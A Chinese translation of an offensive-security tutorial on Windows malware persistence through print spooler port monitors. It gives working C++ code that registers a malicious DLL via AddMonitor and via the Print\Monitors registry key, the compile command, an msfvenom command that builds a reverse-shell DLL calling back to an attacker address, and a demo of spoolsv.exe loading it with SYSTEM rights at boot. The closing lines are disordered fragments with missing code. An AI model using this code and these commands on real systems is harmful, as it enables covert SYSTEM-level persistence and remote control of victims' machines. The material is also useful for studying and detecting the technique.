\newpage
\subsection{恶意软件开发：持久化（第 8 部分）——端口监视器（简单的 C++ 示例）}

{width="80%"}

这篇文章是自我研究一个有趣的恶意软件持久化技巧的结果：端口监视器。

### 端口监视器

端口监视器（Port Monitor）指的是 Windows 打印后台处理程序服务，在本文中就是 `spoolsv.exe`。

添加端口监视器（也就是你的恶意 DLL）基本上有两种方式：通过注册表实现持久化，或者通过自定义的 Windows 应用程序（`AddMonitor` 函数）实现 DLL 的立即执行。

### 添加监视器

使用 Win32 API，具体来说是打印后台处理程序 API 的 `AddMonitor` 函数：

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

就可以在系统运行期间立即添加任意监视器 DLL。

注意，添加监视器需要本地管理员权限。

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;

```

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

{width="80%"}

同时，创建我们的「恶意」DLL：

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

{width="80%"}

因此，编译这段代码会生成一个可执行文件（在我的例子中是 `monitor.exe`），它会把恶意 DLL（`evil2.dll`）注册到系统上。

### 添加「监视器」的演示

复制文件并运行：

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

{width="80%"}

### 注册表持久化

端口监视器的子项列表位于 `HKEY_LOCAL_MACHINE` 下的 `...\Print\Monitors` 节点中。

在系统启动时，这些 DLL 中的每一个都会以 SYSTEM 权限被执行。

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

{width="80%"}

然后，添加子项 Meow 和 Driver 值：

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

{width="80%"}

如你所见，一切都正确地完成了。

{width="80%"}

{width="80%"}

然后重启受害者的机器：

{width="80%"}

{width="80%"}

我们用 Process Hacker 2 来检查 Network（网络）标签页：

{width="80%"}

我们可以看到，`evil2.dll` 正被 `spoolsv.exe`（PID：4616）访问，它最终会派生一个带有我们载荷的 `rundll32`，后者发起一个回连到攻击者的连接：

{width="80%"}

为了清理，在实验结束后运行：

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

{width="80%"}

我用于注册表持久化的「脏」PoC：

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
  (unsigned char*)evilDll, strlen(evilDll));
  RegCloseKey(hkey);
  } else {
  printf("failed to create new registry subkey :(");
  return -1;
  }
  return 0;

```

在 Defcon 22 上，Brady Bloxham 演示了这个持久化技巧。

问题仍然存在：是否有任何 APT 在野外使用了这个技巧。

在添加打印机端口监视器时，用户（或攻击者）可以添加一个任意 DLL 来充当「监视器」。

例如，我们的监视器源代码：

每个项都应该有一个包含 Drivers DLL 的 `REG_SZ` 条目。

首先，在执行恶意操作之前，检查一下子项：

几分钟之后：

这种方法需要管理员权限，并且 DLL 必须保存到磁盘上。
